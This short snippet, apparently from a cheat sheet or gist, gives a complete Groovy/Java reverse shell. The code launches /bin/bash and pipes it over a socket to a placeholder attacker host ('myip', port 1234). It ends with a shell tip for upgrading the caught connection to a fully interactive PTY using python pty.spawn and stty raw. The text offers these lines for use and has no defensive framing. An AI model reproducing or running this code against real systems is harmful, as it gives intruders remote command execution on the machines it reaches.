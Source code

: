 Reverse shell from Groovy
-------------------------

```java
String host="myip";
int port=1234;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

I'll leave this reverse shell tip to recover a fully working PTY here in case anyone needs it:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
^Z bg
stty -a
echo $TERM
stty raw -echo
fg
export TERM=...
stty rows xx columns yy
```
